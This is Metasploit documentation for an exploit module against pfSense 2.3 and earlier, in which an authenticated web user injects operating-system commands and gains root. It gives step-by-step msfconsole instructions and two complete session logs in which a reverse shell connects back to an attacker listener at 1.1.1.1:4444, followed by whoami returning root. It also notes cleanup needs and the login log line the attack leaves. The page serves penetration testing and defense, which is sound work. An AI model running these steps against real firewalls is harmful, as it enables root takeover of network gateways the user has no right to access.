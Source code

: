 ## Description

  This module exploits a vulnerability in pfSense version 2.3 and before which allows an authenticated user to execute arbitrary operating system commands 
  as root.

  This module has been tested successfully on version 2.3-RELEASE, and 2.2.6.


## Vulnerable Application

  This module has been tested successfully on version CE 2.3 amd64, and 2.2.6 amd64.

  Installer:

  * [pfSense CE 2.3](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-CE-2.3-RELEASE-amd64.iso.gz)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_group_member_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set username [username]`
  5. Do: `set password [password]`
  6. Do: `exploit`
  7. You should get a session


## Scenarios

### 2.3-Release amd64

```
[*] Processing pfsense.rc for ERB directives.
resource (pfsense.rc)> use exploit/unix/http/pfsense_group_member_exec
resource (pfsense.rc)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (pfsense.rc)> set verbose true
verbose => true
resource (pfsense.rc)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pfsense.rc)> check
[*] 2.2.2.2:443 The target service is running, but could not be validated.
resource (pfsense.rc)> exploit
[*] Started reverse double SSL handler on 1.1.1.1:4444 
[*] CSRF Token for login: sid:a11be2ee5849522898e2c1ff23739b35c76435bf,1510545358;ip:d70924f708189287bdee1e08d7fa83758a0e1f68,1510545358
[*] Successful Authentication
[*] pfSense Version Detected: 2.3-RELEASE
[+] Login Successful
[*] CSRF Token for group creation: sid:823a6f854ad1bae307c2959e95ccc98a8d72f2c1,1510545361
[*] Manual removal of group aJPEfJLDKT is required.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 5ER6rqZOjOSGjRml;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "5ER6rqZOjOSGjRml\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:25824) at 2017-11-19 08:15:00 -0500

whoami
root
uname -a
FreeBSD . 10.3-RELEASE FreeBSD 10.3-RELEASE #6 05adf0a(RELENG_2_3_0): Mon Apr 11 18:52:07 CDT 2016     root@ce23-amd64-builder:/builder/pfsense-230/tmp/obj/builder/pfsense-230/tmp/FreeBSD-src/sys/pfSense  amd64
```
### 2.2.6 amd64

```
[*] Processing pfsense.rc for ERB directives.
resource (pfsense.rc)> use exploit/unix/http/pfsense_group_member_exec
resource (pfsense.rc)> set rhost 3.3.3.3
rhost => 3.3.3.3
resource (pfsense.rc)> set verbose true
verbose => true
resource (pfsense.rc)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (pfsense.rc)> check
[*] 3.3.3.3:443 The target is not exploitable.
resource (pfsense.rc)> exploit
[*] Started reverse double SSL handler on 1.1.1.1:4444 
[*] CSRF Token for login: sid:bb80526160efcf79d8660d1a31f6bf88e154b38e,1511091712;ip:42d05b73fc9b2d31c54333a60fd308dfbd4da97a,1511091712
[*] Successful Authentication
[*] pfSense Version Detected: 2.2.6-RELEASE
[+] Login Successful
[*] CSRF Token for group creation: sid:d49a6dc5b7e98c92a7772c605af3586a1f3adc75,1511091715
[*] Manual removal of group okUPTvzysL is required.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 7hKg6oD9DkwXYRtt;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "7hKg6oD9DkwXYRtt\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (1.1.1.1:4444 -> 3.3.3.3:34403) at 2017-11-19 06:42:00 -0500

whoami
root
uname -a
FreeBSD pfSense.localdomain 10.1-RELEASE-p25 FreeBSD 10.1-RELEASE-p25 #0 c39b63e(releng/10.1)-dirty: Mon Dec 21 15:20:13 CST 2015     root@pfs22-amd64-builder:/usr/obj.RELENG_2_2.amd64/usr/pfSensesrc/src.RELENG_2_2/sys/pfSense_SMP.10  amd64
```

## Cleanup

Manual cleanup is required. The group name is printed during exploitation.

## Logging

Logging into the web interface writes a line to the system out on the console similar to: `pfSense php-fpm[72834]: /index.php: Succeessful login for user 'admin' from [ip]`
